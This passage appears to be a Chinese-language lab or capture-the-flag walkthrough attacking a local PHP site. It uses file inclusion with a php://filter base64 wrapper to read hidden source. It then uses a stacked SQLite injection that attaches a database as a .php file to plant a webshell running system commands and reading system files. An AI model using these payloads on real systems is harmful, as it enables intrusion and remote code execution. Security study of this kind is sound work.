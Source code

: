 还有 2 个其他链接... 存在参数 view 用于查看其他页面，view 的存在可能是本地文件包含漏洞 LFI....???

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmzkzEm4uLu0DQZJ6KqcfqV2lPlXcsn99o9zQwa80PhEEegwbDv2iaibBg/640?wx_fmt=png)

这是 `http://127.0.0.1/dev/index.php?view=todo` 的输出内容... 这里就省略了前面一些步骤了...

根据注释，将尝试获取 sqlite_test_page.php...（这是尝试自行文本编辑）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmg22nmprusDUMx4pcwAa49ZkQtjD5vwgs5QhNFicZw2Y5J5R0tYM4FBw/640?wx_fmt=png)

这是 `http://127.0.0.1/dev/sqlite_test_page.php` 的输出内容...

内容可能是隐藏了的或只是空白，猜测它是隐藏的，可以使用 PHP 过滤器或包装器将内容编码为 base64... 试试

如何过滤可参考：

```
https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmKmia215wrsa56lWSgyL6o5rFiaAxgCDYPJcjXqoPibzGibibxIHnxIgJ1Fg/640?wx_fmt=png)

这是 `http://127.0.0.1/dev/index.php?view=php://filter/convert.base64-encode/resource=sqlite_test_page` 的输出...

可看到在文件底部存在 base64 编码... 果然隐藏了内容

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmibibia7LhO5hNF1jIpb4GTiaxAHs8t8zFvF7eMO3mJTQNBz6P1pib9e0MFw/640?wx_fmt=png)

通过 base64 继续查看，这段代码中两个红框内容很重要...

第一个红框意识是：我可以控制在输入中构建一个 SQL 查询等命令，意味着存在注入...

第二个红框显示了该随机命名的文件夹是可全局写入的（之前在 todo 列表中也已引用过了 / sqlite_test_page.php）... 所以我也可以通过加密页面访问该目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmrjWIHKQaOjK6Ms4zFC7ibzFqibd2t2XaH2ichl5B40JRyx0wVZ0MiblsHQ/640?wx_fmt=png)

继续测试，这是 `http://127.0.0.1/dev/sqlite_test_page.php?bookid=1` 输出内容...

通过继续测试了 id1~3 修改 url，获得的输出内容分析得到结果...

请求数据库时，通过 http 请求它们时，确实会显示数据库中的字符串，这样我可以创建一个带有 php 扩展名的新数据库，并在其中包含一个 webshell，然后通过 Web 服务器访问它，则可以运行 php... 提权

先测试下写入个简单得字段，然后创建. php 文件看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmJBBFbOQW7IgOOAsxg0oD7oUd7icWg95Hf7bB0NpEXO40VqVk045qIsQ/640?wx_fmt=png)

```
1; ATTACH DATABASE 'd9e28afcf0b274a5e0542abb67db0784/df.php' as df; CREATE TABLE df.df (stuff text); INSERT INTO df.df (stuff) VALUES ("<?php echo 'system: '; system('id'); echo '\nexec: ' . exec('id') . '\nshell_exec: '; shell_exec('id'); echo '\npassthru: '; passthru('id'); echo '\nscandir: '; print_r(scandir('/home')); echo '\nfile_get_contents: ' . file_get_contents('/etc/lsb-release'); ?>");--
```

创建 df.php 脚本，内容集成了很多查询和读取信息的命令... 记得进行 url 编码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmSFg13DToEQt2TPDsay8vSHl0mY1Zp0eA3urIWHicqmkzPAvrLMm1VEQ/640?wx_fmt=png)
